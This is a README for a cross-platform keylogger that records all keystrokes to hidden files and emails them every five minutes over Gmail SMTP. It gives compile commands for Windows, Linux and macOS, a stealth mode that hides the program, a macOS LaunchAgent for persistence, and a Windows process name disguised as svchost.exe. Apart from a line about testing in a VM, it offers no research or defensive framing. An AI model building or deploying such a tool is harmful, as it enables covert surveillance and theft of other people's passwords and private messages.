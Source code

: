 # Keylogger

A cross-platform keylogger that captures keystrokes, logs them to a hidden file, and emails them periodically. Built for Windows, Linux (X11), and macOS.

## Features
- Logs all keystrokes, including special keys (e.g., `[BACKSPACE]`, `[SPACE]`).
- Stealth mode: Runs invisibly in the background.
- Emails logs every 5 minutes via Gmail SMTP with TLS.

## Prerequisites
- **Windows**: MinGW, OpenSSL (e.g., via MSYS2).
- **Linux**: X11 development libraries (`libx11-dev`), OpenSSL (`libssl-dev`).
- **macOS**: Xcode Command Line Tools, OpenSSL (`brew install openssl`).
- Gmail account with App Password for SMTP.

## Installation
1. **Clone or Download**: Get `keylogger.cpp`.
2. **Configure SMTP**:
   - Edit `SMTP_USER`, `SMTP_PASS`, `SMTP_TO` in `keylogger.cpp` with your Gmail details.
   - Generate an App Password: Google Account > Security > 2-Step Verification > App Passwords.
3. **Compile**:
   - **Windows**: 
     ```bash
     g++ keylogger.cpp -o keylogger.exe -std=c++11 -lws2_32 -llibssl -llibcrypto -I"C:\path\to\openssl\include" -L"C:\path\to\openssl\lib"
     ```
   - **Linux**: 
     ```bash
     g++ keylogger.cpp -o keylogger -std=c++11 -lX11 -lssl -lcrypto
     ```
   - **macOS**: 
     ```bash
     clang++ keylogger.cpp -o keylogger -std=c++11 -framework ApplicationServices -framework CoreFoundation -lssl -lcrypto -I/usr/local/opt/openssl/include -L/usr/local/opt/openssl/lib
     ```

## Running
- **Windows**: Double-click `keylogger.exe` or run in CMD. Console hides automatically.
- **Linux**: `./keylogger`. Terminal closes, runs in background.
- **macOS**: `./keylogger`. Terminal closes, runs in background. Optional Launch Agent:
  1. Move to `~/bin/`:
     ```bash
     mkdir -p ~/bin && mv keylogger ~/bin/ && chmod +x ~/bin/keylogger
     ```
  2. Create `~/Library/LaunchAgents/com.yourname.keylogger.plist`:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
     <plist version="1.0">
     <dict>
         <key>Label</key>
         <string>com.yourname.keylogger</string>
         <key>Program</key>
         <string>/Users/yourusername/bin/keylogger</string>
         <key>RunAtLoad</key>
         <true/>
         <key>StandardOutPath</key>
         <string>/Users/yourusername/bin/keylogger.out</string>
         <key>StandardErrorPath</key>
         <string>/Users/yourusername/bin/keylogger.err</string>
     </dict>
     </plist>
     ```
  3. Load: `launchctl load ~/Library/LaunchAgents/com.yourname.keylogger.plist`.

## Usage
- Logs to: 
  - Windows: `C:\Windows\Temp\.klog`
  - Linux: `/tmp/.klog`
  - macOS: `/var/tmp/.klog`
- Emails logs every 5 minutes to `SMTP_TO`.
- Stop:
  - Windows: Task Manager > End `svchost.exe` (spoofed name).
  - Linux: `pkill keylogger`.
  - macOS: `pkill keylogger` or `launchctl stop com.yourname.keylogger`.

## Notes
- Requires Accessibility permissions on macOS (System Settings > Privacy > Accessibility).
- Test in a VM for safety.


### Verification Notes
- **Backspace**: Fixed across all platforms (Windows: `VK_BACK`, Linux: `XK_BackSpace`, macOS: keycode 51/ASCII 8).
- **Stealth**: Unified with fork for Linux/macOS, `ShowWindow` for Windows. Launch Agent remains optional for macOS.
- **SMTP**: Consistent, requires OpenSSL and valid credentials.
